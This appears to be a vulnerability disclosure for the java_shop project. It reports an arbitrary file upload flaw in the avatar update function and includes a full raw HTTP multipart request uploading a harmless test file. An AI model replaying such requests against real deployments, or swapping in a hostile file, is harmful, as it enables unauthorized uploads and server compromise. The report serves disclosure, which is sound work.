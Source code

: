 ### Target



https://github.com/geeeeeeeek/java_shop

### Version



<=1.0

### Description



The system has an arbitrary file upload vulnerability, and attackers can upload arbitrary files by modifying the avatar function.

### Vulnerability Details



```
POST /api/myapp/index/user/update?id=92 HTTP/1.1
Host: 
Connection: keep-alive
sec-ch-ua: "Chromium";v="124", "Microsoft Edge";v="124", "Not-A.Brand";v="99"
Accept: application/json, text/plain, */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryYdw0tzAYBT1BHUvM
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
TOKEN: 
sec-ch-ua-platform: "Windows"
Origin: https://shop.gitapp.cn
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: 
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Content-Length: 1200440

------WebKitFormBoundaryYdw0tzAYBT1BHUvM
Content-Disposition: form-data; name="avatar"; filename="1.txt"
Content-Type: application/octet-stream

Hello

------WebKitFormBoundaryYdw0tzAYBT1BHUvM
```